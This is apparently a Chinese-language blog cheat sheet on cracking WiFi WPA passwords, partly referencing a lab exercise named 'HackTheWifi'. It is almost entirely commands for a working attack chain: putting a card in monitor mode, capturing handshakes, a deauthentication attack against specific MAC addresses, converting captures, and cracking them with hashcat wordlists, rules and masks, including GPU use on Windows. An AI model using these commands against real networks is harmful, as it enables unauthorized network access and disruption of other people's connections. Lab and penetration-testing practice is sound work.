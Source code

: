 ```yaml
---
title: WIFI 密码破解
date: 2025-08-31
draft: false
tags: 
hidden: false
comments: false
---
```




主要步骤
1、发现wifi
2、握手捕获
3、密码破解
4、访问验证

## 发现wifi

开启监控模式
```
sudo airmon-ng start wlan0
```

## 扫描可用WiFi
airodump 扫描可用wifi
```
sudo airodump-ng wlan0mon -c 1 -w WPA
```


## 取消身份认证攻击
执行取消身份验证攻击
```
sudo aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0
```


## 密码破解
接下来，使用hashcat进行密码，破解。首先需要转换为hashcat可接受的格式
```
hcxpcapngtool -o hash wpa-Induction.pcap
```

保存后，查看hash文件是否符合预期
```
cat hash
```

使用密码字典进行暴力破解
```
hashcat -m 22000 --force hash /opt/wordlist.txt
```

一旦破解成功，下面的命令将展示破解后的密码和哈希
```
hashcat -m 22000 --force hash /opt/wordlist.txt --show
```

使用One进行破解密码
```
 hashcat -m 22000 hackme_hash /opt/wordlist.txt -r /usr/share/hashcat/rules/
```

使用自定义规则破解密码
```
T1ss$sbBZ3

将第二个字符大写
将s替换为$
将b大写
重复最后3个字符
```


```
?s
?l
?u
?l
?d
?l
?a?a

?s?l?u?l?d?l?a?a


破解名为“HackTheWifi”的Wi-Fi网络。密码长度为8到16个字符，前四个字符为“B4ll”，其余字符为小写ASCII字母。


hashcat -a 3 -m 22000 htb_hash2 --increment --increment-min 8 --increment-max=14 'B4ll?l?l?l?l?l?l?l?l?l?l'
```

Windows下调用GPU破解
```
.\hashcat.exe --backend-ignore-cuda -w 3 -m 22000 -a 6 ..\hash.txt ..\wordlist.txt ?d?d?d?d
```